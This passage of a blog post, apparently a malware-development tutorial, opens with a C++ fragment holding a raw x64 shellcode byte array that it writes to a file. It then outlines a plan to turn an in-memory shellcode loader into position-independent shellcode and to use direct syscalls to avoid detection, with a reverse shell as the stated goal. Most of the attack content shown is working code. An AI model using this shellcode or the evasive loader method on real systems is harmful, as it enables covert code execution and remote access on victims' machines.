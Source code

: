 ```cpp
0x83,0xc4,0x08,0x48,0x83,0xec,0x60,0x48,0x83,0xec,0x60,0xff,0xd7,0x48,0x83,0xc4,0x30,0x48,0xb8,0x9c,0x92,0x9b,0xd1,0x9a,0x87,0x9a,
0xff,0x48,0xf7,0xd0,0x50,0x48,0x89,0xe1,0x41,0x55,0x41,0x55,0x41,0x55,0x48,0x31,0xc0,0x50,0x50,0x66,0x50,0xb0,0x01,0xc1,0xe0,0x08,
0x66,0x50,0x48,0x31,0xc0,0x50,0x50,0x50,0x66,0x50,0x66,0x50,0x50,0x50,0x50,0xb0,0x68,0x50,0x48,0x89,0xe7,0x48,0x89,0xe0,0x66,0x2d,
0xff,0x04,0x66,0xff,0xc8,0x50,0x57,0x48,0x31,0xc0,0x50,0x50,0x50,0x48,0xff,0xc0,0x50,0x48,0x31,0xc0,0x50,0x50,0x50,0x50,0x49,0x89,
0xc0,0x49,0x89,0xc1,0x48,0x89,0xca,0x48,0x89,0xc1,0x41,0xff,0xd6,0x48,0x31,0xc9,0xff,0xd3
    };

    std::ofstream file("c:\\users\\robbi\\reg.dyno", std::ios::binary);
    if (!file) {
        return 1;
    }

    file.write(reinterpret_cast<const char*>(shellcode.data()), shellcode.size());
    file.close();
    return 0;
}
```

So there you have it.  The above code template is the start to this journey I'm going to take you on 😆  Ultimately, I want to load shellcode in memory with a custom shellcode loader.  However, with some added flair.  LOL.  If it were just the above code, this would be a very boring post and also somewhat lackluster in my opinion.  We're going to take things to the next level!  Here's what I've got for you:

- Convert this C++ in-memory shellcode loader to x64 assembly
- Convert the x64 assembly to PIC (position independent code) shellcode that can be loaded using any method we choose and is not dependant on any fixed memory addresses or static variables, etc
- To help us remain under the radar so to speak, we will also use syscalls to load and execute our PIC shellcode in memory.
- Lastly, we profit and get a reverse shell 😸

Also for the record, this is fairly over the top I realize 😆  If you're a fan of The Big Bang Theory, it's basically this clip in a nutshell.  We're doing something that doesn't require nearly this much work but I'm doing it "because we can" lol. Also this will help briefly go over PIC shellcode and Direct Syscall stuff which I love.  All in one blog post 😸  

<iframe width="1080" height="720" 
        src="https://www.youtube.com/embed/BVd-rYIqSy8"
        title="YouTube video player" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>

Also, if you ever want to go deeper into any topic I write about, feel free to check out my membership offering.  I don't mind helping here and there with quick questions via discord, but I think I owe it to you and myself to spend the proper time it takes to teach you a given topic thoroughly.  That's why I toss that out there.  No pressure, but it's there should anyone ever need it.
